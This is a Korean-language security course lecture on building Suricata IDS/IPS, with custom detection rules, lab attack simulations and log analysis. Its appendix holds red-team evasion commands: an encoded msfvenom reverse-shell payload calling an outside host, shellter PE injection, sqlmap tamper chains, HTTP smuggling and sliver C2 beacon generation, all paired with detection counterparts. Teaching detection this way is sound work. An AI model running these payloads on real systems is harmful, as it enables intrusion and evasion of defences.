

# Week 07: IDS/IPS 구축 — Suricata

## 학습 목표
- IDS(침입 탐지 시스템)와 IPS(침입 방지 시스템)의 차이를 이해한다
- Suricata의 아키텍처와 동작 원리를 설명할 수 있다
- Suricata 룰 문법을 이해하고 커스텀 룰을 작성할 수 있다
- 네트워크 공격(포트 스캔, SQLi, XSS)을 탐지하는 룰을 작성할 수 있다
- Suricata 로그(fast.log, eve.json)를 분석하여 공격을 식별할 수 있다
- IDS/IPS 모드의 차이를 이해하고 환경에 맞게 선택할 수 있다
- 공방전에서 Blue Team의 핵심 탐지 수단으로 Suricata를 활용할 수 있다

## 전제 조건
- Week 06 방화벽 구축 완료
- TCP/IP 네트워크 및 HTTP 프로토콜 이해
- nmap, SQL Injection, XSS 등 공격 기법 이해 (Week 01-05)

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:40 | IDS/IPS 이론 + Suricata 아키텍처 | 강의 |
| 0:40-1:10 | Suricata 룰 문법 상세 | 강의 |
| 1:10-1:20 | 휴식 | - |
| 1:20-2:00 | 포트 스캔 탐지 룰 작성 실습 | 실습 |
| 2:00-2:30 | 웹 공격 탐지 룰 작성 실습 | 실습 |
| 2:30-2:40 | 휴식 | - |
| 2:40-3:10 | 종합 IDS 모니터링 실습 | 실습 |
| 3:10-3:40 | IDS 우회 기법 + 퀴즈 + 과제 | 토론/퀴즈 |

---

# Part 1: IDS/IPS 이론 + Suricata 아키텍처 (40분)

## 1.1 IDS vs IPS

| 항목 | IDS | IPS |
|------|-----|-----|
| 약자 | Intrusion Detection System | Intrusion Prevention System |
| 동작 | 탐지 + 경보 (수동) | 탐지 + 차단 (능동) |
| 배치 | 미러 포트/TAP (패킷 복사) | 인라인 (트래픽 경유) |
| 성능 영향 | 없음 | 있음 (지연 가능) |
| 오탐 위험 | 경보만 (서비스 영향 없음) | 정상 트래픽 차단 위험 |
| 사용 시나리오 | 모니터링, 사후 분석 | 실시간 방어 |

### 탐지 방식

| 방식 | 설명 | 장점 | 단점 |
|------|------|------|------|
| 시그니처 기반 | 알려진 공격 패턴 매칭 | 정확, 빠름 | 제로데이 미탐 |
| 이상 탐지 | 정상 기준 대비 이상 행위 | 제로데이 탐지 가능 | 오탐 많음 |
| 프로토콜 분석 | 프로토콜 규격 위반 탐지 | 프로토콜 악용 탐지 | 복잡 |
| 하이브리드 | 위 방식 조합 | 종합 탐지 | 리소스 사용 |

## 1.2 Suricata 아키텍처

```
네트워크 트래픽
     ↓
[패킷 캡처] — AF_PACKET / PCAP / NFQUEUE
     ↓
[패킷 디코더] — L2/L3/L4 헤더 파싱
     ↓
[스트림 재조합] — TCP 스트림 재구성
     ↓
[애플리케이션 디코더] — HTTP, DNS, TLS, SSH 등
     ↓
[탐지 엔진] — 시그니처 매칭 (멀티스레드)
     ↓
[출력] — fast.log, eve.json, pcap 저장
```

### Suricata 주요 설정 파일

| 파일 | 경로 | 용도 |
|------|------|------|
| 메인 설정 | `/etc/suricata/suricata.yaml` | 전체 설정 |
| 룰 파일 | `/etc/suricata/rules/*.rules` | 탐지 룰 |
| fast.log | `/var/log/suricata/fast.log` | 간단한 경보 로그 |
| eve.json | `/var/log/suricata/eve.json` | JSON 상세 로그 |

## 1.3 Suricata 룰 문법

### 룰 구조

```
action protocol src_ip src_port -> dst_ip dst_port (options;)

예시:
alert tcp any any -> $HOME_NET 80 (msg:"SQL Injection 시도"; content:"UNION SELECT"; nocase; sid:1000001; rev:1;)
```

### 액션(Action)

| 액션 | 설명 | 모드 |
|------|------|------|
| `alert` | 경보 생성 | IDS/IPS |
| `pass` | 통과 허용 | IDS/IPS |
| `drop` | 패킷 차단 | IPS만 |
| `reject` | 차단 + RST/ICMP 응답 | IPS만 |
| `log` | 로그만 기록 | IDS/IPS |

### 주요 룰 옵션

| 옵션 | 설명 | 예시 |
|------|------|------|
| `msg` | 경보 메시지 | `msg:"포트 스캔 탐지";` |
| `content` | 페이로드 내용 매칭 | `content:"UNION SELECT";` |
| `nocase` | 대소문자 무시 | `nocase;` |
| `pcre` | 정규식 매칭 | `pcre:"/select.*from/i";` |
| `sid` | 시그니처 ID (고유) | `sid:1000001;` |
| `rev` | 룰 리비전 | `rev:1;` |
| `classtype` | 분류 유형 | `classtype:web-application-attack;` |
| `priority` | 우선순위 (1=높음) | `priority:1;` |
| `flow` | 트래픽 방향 | `flow:to_server,established;` |
| `threshold` | 임계값 | `threshold:type threshold,track by_src,count 10,seconds 60;` |
| `http_uri` | HTTP URI 매칭 | `http_uri; content:"/admin";` |
| `http_header` | HTTP 헤더 매칭 | `http_header; content:"User-Agent";` |

---

# Part 2: Suricata 룰 문법 상세 (30분)

## 2.1 콘텐츠 매칭 상세

```
# 단순 문자열 매칭
content:"UNION SELECT"; nocase;

# 16진수 매칭
content:"|0d 0a 0d 0a|";  # CRLF CRLF

# 오프셋/깊이
content:"GET"; offset:0; depth:3;  # 처음 3바이트에서만

# 거리/이내
content:"HTTP"; distance:0; within:10;  # 이전 매칭 후 10바이트 내

# 부정 매칭
content:!"normal"; # "normal" 포함하지 않는 경우
```

## 2.2 HTTP 키워드

```
# HTTP URI 매칭
alert http any any -> $HOME_NET any (
    msg:"SQLi in URI";
    flow:to_server,established;
    http_uri;
    content:"UNION"; nocase;
    content:"SELECT"; nocase;
    sid:1000010; rev:1;
)

# HTTP 메서드 매칭
alert http any any -> $HOME_NET any (
    msg:"HTTP PUT 시도";
    flow:to_server,established;
    http_method;
    content:"PUT";
    sid:1000011; rev:1;
)
```

## 2.3 임계값(Threshold)과 비율 기반 탐지

```
# 60초 내 동일 소스에서 10회 이상 → 1회만 경보
alert tcp any any -> $HOME_NET any (
    msg:"포트 스캔 탐지";
    flags:S;
    threshold:type threshold,track by_src,count 10,seconds 60;
    sid:1000020; rev:1;
)

# 30초 내 동일 소스에서 5회 이상 SSH 시도
alert tcp any any -> $HOME_NET 22 (
    msg:"SSH 브루트포스 시도";
    flow:to_server;
    threshold:type threshold,track by_src,count 5,seconds 30;
    sid:1000021; rev:1;
)
```

---

# Part 3: 포트 스캔/웹 공격 탐지 룰 실습 (40분)

## 실습 3.1: 포트 스캔 탐지 룰 작성

### Step 1: 커스텀 룰 파일 생성

> **실습 목적**: Suricata에 커스텀 탐지 룰을 작성하여 포트 스캔을 탐지한다.
>
> **배우는 것**: Suricata 룰 작성과 적용 방법

```bash
# secu 서버에 커스텀 룰 작성
ssh ccc@10.20.30.1 << 'RULES'
echo 1 | sudo -S bash -c 'cat > /etc/suricata/rules/custom.rules << "EOF"
# === 포트 스캔 탐지 ===
alert tcp any any -> $HOME_NET any (msg:"[CUSTOM] TCP SYN 스캔 탐지"; flags:S,12; threshold:type threshold,track by_src,count 20,seconds 10; classtype:attempted-recon; sid:9000001; rev:1;)

# === SSH 브루트포스 탐지 ===
alert tcp any any -> $HOME_NET 22 (msg:"[CUSTOM] SSH 브루트포스 시도"; flow:to_server; threshold:type threshold,track by_src,count 5,seconds 30; classtype:attempted-admin; sid:9000002; rev:1;)

# === SQL Injection 탐지 ===
alert http any any -> $HOME_NET any (msg:"[CUSTOM] SQL Injection - UNION SELECT"; flow:to_server,established; http_uri; content:"UNION"; nocase; content:"SELECT"; nocase; classtype:web-application-attack; sid:9000003; rev:1;)

alert http any any -> $HOME_NET any (msg:"[CUSTOM] SQL Injection - OR 1=1"; flow:to_server,established; http_uri; content:"OR"; nocase; content:"1=1"; classtype:web-application-attack; sid:9000004; rev:1;)

# === XSS 탐지 ===
alert http any any -> $HOME_NET any (msg:"[CUSTOM] XSS - script 태그"; flow:to_server,established; http_uri; content:"<script"; nocase; classtype:web-application-attack; sid:9000005; rev:1;)

alert http any any -> $HOME_NET any (msg:"[CUSTOM] XSS - onerror"; flow:to_server,established; http_uri; content:"onerror"; nocase; classtype:web-application-attack; sid:9000006; rev:1;)

# === ICMP 플러딩 탐지 ===
alert icmp any any -> $HOME_NET any (msg:"[CUSTOM] ICMP 플러딩"; threshold:type threshold,track by_src,count 50,seconds 10; classtype:attempted-dos; sid:9000007; rev:1;)
EOF
'
RULES

# 룰 파일 확인
ssh ccc@10.20.30.1   "echo 1 | sudo -S cat /etc/suricata/rules/custom.rules 2>/dev/null"
```

> **결과 해석**:
> - `sid:9000001`: 커스텀 룰 ID (9000000번대 사용)
> - `flags:S,12`: SYN 플래그가 설정된 패킷 (포트 스캔 특징)
> - `threshold`: 임계값 기반으로 대량 시도만 탐지 (오탐 방지)
> - `http_uri`: HTTP URI에서만 매칭 (정확도 향상)

### Step 2: Suricata 재시작 및 룰 적용

> **실습 목적**: 작성한 룰을 Suricata에 적용하고 정상 동작을 확인한다.
>
> **배우는 것**: Suricata 룰 적용 프로세스

```bash
# suricata.yaml에 커스텀 룰 경로 추가 확인
ssh ccc@10.20.30.1   "echo 1 | sudo -S grep 'custom.rules' /etc/suricata/suricata.yaml 2>/dev/null"

# Suricata 룰 검증
ssh ccc@10.20.30.1   "echo 1 | sudo -S suricata -T -c /etc/suricata/suricata.yaml 2>&1 | tail -5"
# 예상 출력: Configuration provided was successfully loaded.

# Suricata 재시작
ssh ccc@10.20.30.1   "echo 1 | sudo -S systemctl restart suricata 2>/dev/null; echo 1 | sudo -S systemctl status suricata 2>/dev/null | head -5"
```

> **트러블슈팅**:
> - "Failed to parse rule": 룰 문법 오류 → sid, rev 등 필수 옵션 확인
> - "Suricata failed to start": suricata.yaml 설정 오류 → `-T` 옵션으로 검증

### Step 3: 공격 시뮬레이션 + 탐지 확인

> **실습 목적**: 실제 공격을 수행하고 Suricata가 탐지하는지 확인한다.
>
> **배우는 것**: IDS 경보 확인과 로그 분석

```bash
# 공격 1: 포트 스캔
echo 1 | sudo -S nmap -sS -p 1-100 10.20.30.1 2>/dev/null > /dev/null

# 공격 2: SQLi 시도 (web 서버 경유)
curl -s "http://10.20.30.80:3000/rest/products/search?q=UNION%20SELECT%201,2,3" > /dev/null

# 공격 3: XSS 시도
curl -s "http://10.20.30.80:3000/rest/products/search?q=%3Cscript%3Ealert(1)%3C%2Fscript%3E" > /dev/null

# Suricata 경보 확인
sleep 3
ssh ccc@10.20.30.1   "echo 1 | sudo -S tail -20 /var/log/suricata/fast.log 2>/dev/null"
# 예상 출력:
# [**] [1:9000001:1] [CUSTOM] TCP SYN 스캔 탐지 [**] ...
# [**] [1:9000003:1] [CUSTOM] SQL Injection - UNION SELECT [**] ...
# [**] [1:9000005:1] [CUSTOM] XSS - script 태그 [**] ...

# eve.json에서 상세 정보 확인
ssh ccc@10.20.30.1   "echo 1 | sudo -S tail -5 /var/log/suricata/eve.json 2>/dev/null | python3 -m json.tool 2>/dev/null | head -30"
```

> **결과 해석**:
> - fast.log: 간단한 경보 (시간, SID, 메시지, 소스/목적지)
> - eve.json: JSON 형식의 상세 로그 (전체 패킷 정보)
> - 커스텀 룰이 정상 동작하면 [CUSTOM] 접두사가 있는 경보가 표시됨

---

# Part 4: 종합 IDS 모니터링 실습 (30분)

## 실습 4.1: 실시간 모니터링 시뮬레이션

### Step 1: Bastion 기반 IDS 모니터링

> **실습 목적**: Bastion를 활용하여 IDS 경보를 자동 수집하고 분석한다.
>
> **배우는 것**: IDS 모니터링 자동화

```bash
RESULT=$(curl -s -X POST http://localhost:9100/projects \
  -H "Content-Type: application/json" \
  -H "X-API-Key: ccc-api-key-2026" \
  -d '{"name":"week07-ids","request_text":"IDS/IPS 구축 실습","master_mode":"external"}')
PID=$(echo $RESULT | python3 -c "import sys,json; print(json.load(sys.stdin)['project']['id'])")

curl -s -X POST "http://localhost:9100/projects/$PID/plan" -H "X-API-Key: ccc-api-key-2026" > /dev/null
curl -s -X POST "http://localhost:9100/projects/$PID/execute" -H "X-API-Key: ccc-api-key-2026" > /dev/null

curl -s -X POST "http://localhost:9100/projects/$PID/execute-plan" \
  -H "Content-Type: application/json" \
  -H "X-API-Key: ccc-api-key-2026" \
  -d '{
    "tasks": [
      {"order":1,"title":"Suricata 상태 확인","instruction_prompt":"ssh ccc@10.20.30.1 \"echo 1 | sudo -S systemctl status suricata 2>/dev/null | head -5\"","risk_level":"low","subagent_url":"http://localhost:8002"},
      {"order":2,"title":"최근 경보 확인","instruction_prompt":"ssh ccc@10.20.30.1 \"echo 1 | sudo -S tail -10 /var/log/suricata/fast.log 2>/dev/null\"","risk_level":"low","subagent_url":"http://localhost:8002"},
      {"order":3,"title":"커스텀 룰 수","instruction_prompt":"ssh ccc@10.20.30.1 \"echo 1 | sudo -S wc -l /etc/suricata/rules/custom.rules 2>/dev/null\"","risk_level":"low","subagent_url":"http://localhost:8002"}
    ],
    "subagent_url":"http://localhost:8002",
    "parallel":true
  }' | python3 -c "
import sys,json
d=json.load(sys.stdin)
print(f'결과: {d[\"overall\"]}')
for t in d.get('task_results',[]):
    print(f'  [{t[\"order\"]}] {t[\"title\"]:25s} → {t[\"status\"]}')
"
```

## 4.2 IDS 우회 기법 이해

| 기법 | 설명 | 방어 |
|------|------|------|
| 인코딩 우회 | URL/유니코드 인코딩 | 디코딩 후 매칭 |
| 패킷 단편화 | IP 패킷 분할 | 스트림 재조합 |
| 대소문자 변환 | `UnIoN SeLeCt` | nocase 옵션 |
| 주석 삽입 | `UNI/**/ON SEL/**/ECT` | 정규식 매칭 |
| 느린 스캔 | 시간 기반 임계값 회피 | 장기 기록 분석 |
| 암호화 | HTTPS로 페이로드 은닉 | SSL/TLS 복호화 |

---

## 검증 체크리스트
- [ ] IDS와 IPS의 차이를 설명할 수 있는가
- [ ] Suricata 룰 문법(action, protocol, options)을 이해했는가
- [ ] 포트 스캔 탐지 룰을 작성하고 테스트했는가
- [ ] SQL Injection/XSS 탐지 룰을 작성하고 테스트했는가
- [ ] SSH 브루트포스 탐지 룰을 작성했는가
- [ ] fast.log과 eve.json을 분석할 수 있는가
- [ ] Bastion를 통해 IDS 모니터링을 자동화했는가
- [ ] IDS 우회 기법을 이해했는가

## 과제

### 과제 1: 커스텀 IDS 룰셋 작성 (필수)
- Week 01-05에서 수행한 공격(포트 스캔, SQLi, XSS, 브루트포스, 권한 상승)을 탐지하는 룰 작성
- 각 룰의 탐지 원리와 테스트 결과를 문서화

### 과제 2: IDS 로그 분석 (선택)
- Suricata eve.json 로그를 분석하여 공격 타임라인 구성
- 공격 유형별 통계를 산출하고 시각화

### 과제 3: IDS 우회 실험 (도전)
- 작성한 IDS 룰을 우회하는 페이로드 개발
- 우회에 성공한 경우 룰을 개선하여 재탐지

---

## 📂 실습 참조 파일 가이드

> 이번 주 실습에서 **실제로 조작하는** 솔루션의 기능·경로·파일·설정·UI 요점입니다.

### Suricata IDS/IPS
> **역할:** 시그니처 기반 네트워크 침입 탐지/차단 엔진  
> **실행 위치:** `secu (10.20.30.1)`  
> **접속/호출:** `systemctl status suricata` / `suricatasc` 소켓 / `suricata -T`

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `/etc/suricata/suricata.yaml` | 메인 설정 (HOME_NET, af-packet, rule-files) |
| `/etc/suricata/rules/local.rules` | 사용자 커스텀 탐지 룰 |
| `/var/lib/suricata/rules/suricata.rules` | `suricata-update` 병합 룰 |
| `/var/log/suricata/eve.json` | JSON 이벤트 (alert/flow/http/dns/tls) |
| `/var/log/suricata/fast.log` | 알림 1줄 텍스트 로그 |
| `/var/log/suricata/stats.log` | 엔진 성능 통계 |

**핵심 설정·키**

- `HOME_NET` — 내부 대역 — 틀리면 내부/외부 판별 실패
- `af-packet.interface` — 캡처 NIC — 트래픽이 흐르는 인터페이스와 일치해야 함
- `rule-files: ["local.rules"]` — 로드할 룰 파일 목록

**로그·확인 명령**

- `jq 'select(.event_type=="alert")' eve.json` — 알림만 추출
- `grep 'Priority: 1' fast.log` — 고위험 탐지만 빠르게 확인

**UI / CLI 요점**

- `suricata -T -c /etc/suricata/suricata.yaml` — 설정/룰 문법 검증
- `suricatasc -c stats` — 실시간 통계 조회 (런타임 소켓)
- `suricata-update` — 공개 룰셋 다운로드·병합

> **해석 팁.** `stats.log`의 `kernel_drops > 0`이면 누락 발생 → `af-packet threads` 증설. 커스텀 룰 `sid`는 **1,000,000 이상** 할당 권장.

---

## 실제 사례 (WitFoo Precinct 6 — IDS/IPS Suricata)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *IDS/IPS Suricata* 학습 항목 매칭.

### IDS/IPS Suricata 의 dataset 흔적 — "Suricata alert + matched_rules"

dataset 의 정상 운영에서 *Suricata alert + matched_rules* 신호의 baseline 을 알아두면, *IDS/IPS Suricata* 시도 시 발생하는 anomaly 를 정량으로 탐지할 수 있다. 핵심 정량 지표는 — alert priority 분포.



### Case 1: dataset 정량 지표

| 항목 | 값 |
|---|---|
| 핵심 신호 | Suricata alert + matched_rules |
| 정량 baseline | alert priority 분포 |
| 학습 매핑 | Suricata signature 작성과 false positive 관리 |

**자세한 해석**: Suricata signature 작성과 false positive 관리. 이 차이를 정량으로 측정해야 *공격 시도와 정상 운영의 구분* 이 가능. 학생이 baseline 숫자를 외워두면 — 운영 환경에서 anomaly 를 즉시 탐지할 수 있다.

### Case 2: 실전 적용 시나리오

| 단계 | dataset 활용 |
|---|---|
| 시도 식별 | Suricata alert + matched_rules 의 spike |
| 정상 vs 이상 | baseline 대비 비율 |
| 룰 작성 | Suricata / Wazuh / Sigma |
| 검증 | dataset 재실행 |

**자세한 해석**: 운영 환경 룰 작성은 — *baseline 측정 → 임계 결정 → 룰 작성 → dataset 검증* 의 4 단계. 한 단계라도 빠지면 false positive 폭증.

### 이 사례에서 학생이 배워야 할 3가지

1. **IDS/IPS Suricata = Suricata alert + matched_rules 의 anomaly** — 정량 신호로 탐지.
2. **baseline 숫자 외우기** — alert priority 분포.
3. **4 단계 룰 작성** — 측정 → 임계 → 룰 → 검증.

**학생 액션**: lab 시그니처 1개 작성 → dataset 적용.


---

## 부록: 학습 OSS 도구 매트릭스 (Course11 — Week 07 IDS/IPS + Red 우회)

### lab step → 도구 매핑

| step | 학습 항목 | OSS 도구 |
|------|----------|---------|
| s1 | Suricata 운영 | suricata + ET Open |
| s2 | Snort3 비교 | snort3 |
| s3 | Zeek 프로토콜 분석 | zeek |
| s4 | 룰 작성 + 검증 | suricata-update + suricata -T |
| s5 | msfvenom 인코딩 | msfvenom -e shikata_ga_nai |
| s6 | shellter (PE) | shellter (Wine) |
| s7 | sqlmap WAF tamper | `sqlmap --tamper=...` |
| s8 | smuggler (HTTP smuggling) | smuggler.py |

### Blue — IDS/IPS

```bash
# 환경 (week02 에 이미)
ssh ccc@10.20.30.1
sudo apt install -y suricata zeek

# === Suricata 룰셋 강화 ===
sudo suricata-update enable-source et/open
sudo suricata-update enable-source ptresearch/attackdetection
sudo suricata-update enable-source oisf/trafficid
sudo suricata-update --force                          # 모든 source

sudo systemctl reload suricata

# 룰 통계
sudo suricatasc -c "ruleset-stats"
sudo suricatasc -c "ruleset-reload-rules"

# === Zeek (프로토콜 분석) ===
sudo zeek -i eth0 -e "redef Site::local_nets += { 10.20.30.0/24 };"

# 자동 생성된 log:
ls /opt/zeek/logs/current/
# - conn.log (모든 connection)
# - http.log (HTTP requests)
# - dns.log (DNS queries)
# - ssl.log (TLS)
# - notice.log (suspicious)

# 분석 예시:
zeek-cut -d ts uid id.orig_h id.resp_h method host uri \
    < /opt/zeek/logs/current/http.log | head

# === Suricata + Zeek 통합 ===
# Zeek 의 풍부한 metadata + Suricata 의 시그니처 매칭
sudo tee /etc/suricata/rules/from-zeek.rules << 'EOF'
# Zeek notice → Suricata alert 변환
alert log:notice (msg: "Zeek notice"; sid:1000020;)
EOF
```

### Red — IDS 우회 7 기법

```bash
# === 1. Payload 인코딩 (msfvenom) ===
msfvenom -p linux/x64/shell_reverse_tcp \
    LHOST=192.168.0.112 LPORT=4444 \
    -e x86/shikata_ga_nai -i 10 \
    -f elf -o /tmp/encoded.elf
# 인코더 10번 적용 → 시그니처 매칭 회피

# === 2. Polymorphism (shellter) ===
sudo apt install -y shellter wine
shellter
# Auto mode: PE 파일에 reverse shell 자동 주입
# 매번 다른 변종 → AV/IDS bypass

# === 3. SQLi tamper (sqlmap) ===
sqlmap -u "http://target/?id=1" \
    --tamper=between,space2comment,charunicodeencode,equaltolike \
    --random-agent \
    --batch

# === 4. WAF 우회 — sqlmap 다중 tamper ===
sqlmap -u "http://target/?id=1" \
    --tamper=apostrophemask,base64encode,space2randomblank,unionalltounion,equaltolike,modsecurityzeroversioned \
    --batch

# === 5. HTTP smuggling (CL.TE / TE.CL) ===
git clone https://github.com/defparam/smuggler ~/smuggler
python3 ~/smuggler/smuggler.py -u target.com -m TE.CL
python3 ~/smuggler/smuggler.py -u target.com -m CL.TE

# === 6. Certificate pinning bypass (mitmproxy) ===
mitmproxy --mode transparent
# Mobile app traffic intercept

# === 7. C2 channel — sliver (mTLS) ===
sliver-server
> mtls --lhost attacker --lport 443
# mTLS 으로 자격증명 검증 → 시그니처 매칭 회피

> generate beacon --mtls attacker:443 \
    --save /tmp/beacon \
    --evasion        # 자동 인코딩
```

### Blue — 우회 탐지

```bash
# === msfvenom 인코더 탐지 ===
# YARA rule
sudo tee /etc/yara/msfvenom.yar << 'EOF'
rule shikata_ga_nai_encoder
{
    strings:
        $a = { d9 ee d9 74 24 f4 5b 81 73 13 ?? ?? ?? ?? }    // shikata signature
    condition:
        $a
}
EOF

# 파일 검사
yara /etc/yara/msfvenom.yar /tmp/encoded.elf
# → 매칭됨 (encoder signature)

# === SQLi tamper 탐지 (ModSec) ===
# OWASP CRS rule 942100 시리즈가 다양한 인코딩 패턴 매칭
# Strict mode (paranoia level 4) 활성:
echo 'SecAction "id:9001,phase:1,nolog,pass,t:none,setvar:tx.paranoia_level=4"' | \
    sudo tee /etc/modsecurity/custom-strict.conf

# === HTTP smuggling 탐지 ===
# Zeek http.log 의 비정상 Content-Length 감지
zeek-cut -d ts host uri request_body_len < http.log | \
    awk '$NF > 100000 {print}'                        # 100KB+ body

# === sliver C2 mTLS 탐지 ===
# Suricata TLS fingerprint
sudo tee /etc/suricata/rules/sliver-c2.rules << 'EOF'
alert tls any any -> any any (msg:"sliver C2 TLS pattern"; \
    flow:established,to_server; \
    tls.cert_subject; content:"O=Internet Widgits"; \
    sid:1000030;)
EOF
```

### 우회 / 탐지 매트릭스

| 우회 기법 | 효과 | 탐지 도구 |
|----------|------|----------|
| msfvenom encoder | 약함 (YARA 매칭) | YARA + ClamAV |
| Polymorphism (shellter) | 강함 | EDR runtime + Falco |
| sqlmap tamper | 약함 (CRS strict) | ModSec paranoia 4 |
| HTTP smuggling | 매우 강함 | Zeek http length anomaly |
| TLS C2 | 강함 | Suricata cert fingerprint + JA3 |
| DNS C2 | 매우 강함 | Suricata DNS length + Zeek |

학생은 본 7주차에서 **Blue (Suricata + Zeek + ModSec strict + YARA) ↔ Red (msfvenom + shellter + sqlmap tamper + smuggler + sliver)** 의 IDS 우회 공방을 익힌다.
